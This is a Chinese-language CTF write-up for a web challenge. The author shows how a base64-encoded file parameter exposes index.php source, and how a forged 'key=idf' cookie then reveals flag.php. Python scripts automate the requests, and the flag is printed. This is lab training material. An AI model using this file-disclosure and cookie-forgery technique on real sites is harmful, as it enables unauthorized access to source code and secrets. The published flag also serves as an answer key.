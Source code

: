 ## 问题
这里这里→ http://ctf.idf.cn/game/web/40/index.php

## write up
百度了半天，虽然得到了题解。但是题解用的python代码涉及到的都是没用过的python库。于是自己去搜索urllib之类的学习。。。没学习关于cookie的东西，或者说自己懒得学。

最后还是打算依据题解的代码去学习，结果发现这是一个requests库，
利用命令 `pip install requests` 把他安装了，然后我也可以用题解的代码了，good

就是要发送一个自己伪造的cookies给网站，至于用python怎么发送就看代码了。然后网上的人说用firebug也可以，但是我不会啊！

总之就是利用第三方库requests来完成，话说代码好简洁！

### 代码
#### 最终代码
```python
# -*- coding: utf-8 -*-
# version: Python3.X
__author__ = '__L1n__w@tch'

# url: http://ctf.idf.cn/game/web/40/index.php?line=&file=ZmxhZy50eHQ
# 思路:
# 1. 看原始url，里面的file=，怀疑是base64，试一下, 加上2个等于号解密得到flag.txt
# 2. 试一下获取index.php的内容
# 3. 从index.php源码知道要获取flag.php的内容，同时得加个cookie["key"]

import base64
import requests


def main():
    index_php = get_index_php()
    print(index_php)
    flag_php = get_flag_php()
    print(flag_php)


def get_flag_php():
    print("Start to get flag.php: ")
    flag_source_code = str()
    cookies = {"key": "idf"}
    file = base64.b64encode(b"flag.php").decode("utf8")
    url = "http://ctf.idf.cn/game/web/40/index.php?line={}&file={}".format(0, file)
    flag_source_code += requests.get(url, cookies=cookies).text

    return flag_source_code


def get_index_php():
    print("Start to get index.php: ")
    source_code = str()
    index_url = base64.b64encode(b"index.php").decode("utf8")
    for i in range(20):
        url = "http://ctf.idf.cn/game/web/40/index.php?line={}&file={}".format(i, index_url)
        response = requests.get(url)
        source_code += response.text

    return source_code


if __name__ == "__main__":
    main()
```

运行完得到结果: `<?php $flag='wctf{idf_c00kie}'; ?>`

#### 其余代码
```python
import urllib.request

def url_open( url ) :
    req = urllib.request.Request( url )
    response = urllib.request.urlopen( url )
    html = response.read()

    return html

def download() :
    for i in range( 20 ) :
        url = 'http://ctf.idf.cn/game/web/40/index.php?line=' + str( i ) + '&file=aW5kZXgucGhw'
        html = url_open( url )
        html = html.decode( 'utf-8' )
        print( html,end=' ' )

if __name__ == '__main__' :
    download()
```

```python
# -*- coding: utf-8 -*- # #用中文字符改变编码方式为UTF-8

#_author_楠
import requests  #调用url、cookie操作 文件操作的库
import sys

cookies = {'key' : 'idf'} #设置cookies为key值为idf 即cookies欺骗

for i in range(0,3): #循环打开网页并抓取网页文本信息存入本地
   url="http://ctf.idf.cn/game/web/40/index.php?line=" + \
        str(i) + "&file=ZmxhZy5waHA="
   wp = requests.get(url, cookies=cookies)
   print( wp.text )
   with open( './flag.txt','a+' ) as f :
      print( f.tell() )
      f.seek( 0,0 )
      f.write( wp.text )

print("get flag success")
```



